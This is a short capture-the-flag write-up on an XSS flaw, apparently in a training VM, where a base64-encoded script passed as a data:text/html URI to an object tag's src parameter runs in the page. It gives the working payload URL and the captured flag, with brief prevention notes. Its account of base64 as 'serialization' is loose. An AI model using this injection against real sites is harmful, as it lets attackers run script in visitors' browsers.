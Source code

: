 # XSS - Object

Go to page:

{VM_IP}/index.php?page=media&src=nsa

inspect elements shows src argument inserted directly into data field of object tag: <br>
<object data="{VM_IP}/images/nsa_prism.jpg"></object>

Injecting html normally won't work because quotation marks are handled properly.
however, you can inject serialized html (serializing converts an object into a stream of bytes).

```echo '<script>alert("Oh hi!")</script>' | base64```

This produces a serialized version of the script to be run: <br>
PHNjcmlwdD5hbGVydCgiT2ggaGkhIik8L3NjcmlwdD4K

Replace the original image source with serialized script:

{VM_IP}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiT2ggaGkhIik8L3NjcmlwdD4K

And the flag appears! 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D


## Use

User can execute malicious code on client machine.


## Prevention

Validate input before use.
All elements to be displayed should be retrieved on the server side only.
